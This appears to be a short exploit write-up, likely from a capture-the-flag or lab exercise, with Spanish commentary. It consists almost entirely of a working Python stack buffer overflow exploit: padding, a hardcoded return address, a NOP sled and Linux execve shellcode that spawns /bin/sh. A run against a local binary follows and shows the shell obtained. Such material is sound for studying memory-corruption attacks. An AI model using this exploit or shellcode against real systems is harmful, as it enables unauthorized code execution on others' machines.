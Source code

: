 ## Script AutoPwn

```
#!/usr/bin/python
from struct import pack

if __name__=="__main__":
        offset=72
        junk="A"*offset
        EIP=pack("<I",0xbffff10c)
#       EIP="\x0c\xf1\xff\xbf"

        nops="\x90"*200

        shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

        payload=junk + EIP + nops + shellcode
        print payload
```

Ejecutando el exploit nos da una shell.

```
> ./buff $(python exploit.py) 
$ whoami
noroot
```

